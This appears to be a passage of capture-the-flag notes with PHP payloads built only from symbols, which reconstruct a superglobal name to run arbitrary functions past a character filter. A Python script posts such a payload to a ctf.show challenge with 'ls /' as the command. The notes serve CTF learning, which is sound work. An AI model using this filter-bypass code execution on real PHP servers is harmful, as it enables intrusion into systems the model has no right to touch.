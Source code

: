 # 4
	- ```php
	  $_=(_/_._)[0];
	  $__=++$_;
	  $__=_.++$_.$__;
	  $_++.$_++;
	  $__.=(++$_).(++$_);
	  $$__[_]($$__[0]);
	  ```
- # 5
	- ```python
	  payload = """
	  $_=_(_/_)[_];
	  $你=++$_;
	  $你=_.++$_.$你;
	  ++$_;
	  ++$_;
	  $你.=++$_.++$_;
	  $$你[_]($$你[吗]);
	  """
	  payload = payload.replace("\n", "")
	  payload = payload.encode()
	  payload = payload.replace("你".encode(), b"\xff").replace("吗".encode(), b"\xfe")
	  print(len(payload))
	  # print(re.search("[a-zA-Z0-9!'@#%^&*:{}\-<\?>\"|`~\\\\]", payload))
	  print(payload)
	  print("".join(hex(i).replace("0x", "%") for i in payload))
	  url = "http://2ce05fe9-0188-4689-be63-09776db9a902.challenge.ctf.show/"
	  r = base_post(url, data = {
	      "ctf_show": payload,
	      b"\xfe": "ls /",
	      "_": "var_dump",
	  })
	  print(r.text)
	  ```
	- requests传参数的坑
		- {{embed ((64cb9a6f-4ae1-417b-af8f-18485741a841))}}
		-